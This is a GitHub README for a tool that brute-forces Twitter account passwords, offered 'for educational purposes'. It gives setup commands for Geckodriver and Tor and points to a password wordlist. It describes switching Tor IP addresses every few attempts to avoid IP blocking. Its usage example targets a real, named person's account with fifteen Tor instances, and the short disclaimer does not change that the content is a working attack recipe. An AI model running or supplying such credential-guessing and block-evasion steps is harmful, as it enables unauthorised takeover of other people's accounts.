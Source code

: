 # TBA
Twitter brute force attack (for educational purposes). <br>
This attack covers attacks on multiple instances and switching IP Address after every 2-4 attemps from one instance to prevent getting IP-blocked.

# How to
1. Install Geckodriver in path (Ubuntu 18.04):
```bash
export GV=v0.26.0
wget "https://github.com/mozilla/geckodriver/releases/download/$GV/geckodriver-$GV-linux64.tar.gz"
tar xvzf geckodriver-$GV-linux64.tar.gz
chmod +x geckodriver
sudo cp geckodriver /usr/local/bin/
```
2. Download Tor binaries (Version 9.5 or newer on Ubuntu 18.04):
```bash
wget https://www.torproject.org/dist/torbrowser/9.5/tor-browser-linux64-9.5_en-US.tar.xz
tar -xf tor-browser-linux64-9.5_en-US.tar.xz
```
3. Install requirements:
```bash
pip3 install -r requirements.txt
```
4. Download suitable password list from [Github](https://github.com/danielmiessler/SecLists/tree/master/Passwords)
5. Start brute forcing using command line
```bash
python3 TBA.py <username> <path_to_password_list> <path_to_tor_binaries> -<amount_of_tor_instances_optional>
python3 TBA.py realDonaldTrump path/to/wlist.txt path/to/tor-browser_en-US -instances 15
```

# Disclaimer
Do not use this if you are not sure wether you're acting on legal grounds or not.
In general it is not allowed to log into accounts you don't own.
This was made for educational purposes.
